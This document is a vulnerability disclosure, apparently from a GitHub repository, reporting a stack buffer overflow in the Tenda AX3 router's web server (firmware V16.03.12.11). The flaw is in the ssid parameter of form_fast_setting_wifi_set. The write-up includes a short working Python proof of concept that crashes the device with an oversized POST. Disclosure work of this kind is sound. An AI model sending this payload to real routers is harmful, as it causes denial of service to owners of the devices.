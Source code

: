 Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **stack buffer overflow** vulnerability detected at function **form_fast_setting_wifi_set**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the devName parameter **ssid**. <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **form_fast_setting_wifi_set**, the content obtained by program through parameter **ssid** given by http is passed to variable **v5**. Then, the variable **v5** is equal to the variable **v6**, and the content of **ssid** will be copyed to the variable **par**.However,**par** is on the stack,but there isn't any length check of **v6**.. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/0.png) <br>

<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/fast_setting_wifi_set"

payload = "a"*0x1000
data = {
    "ssid": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

Attack Demo
========
<br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/1.png) <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/2.png) <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/3.png) <br>

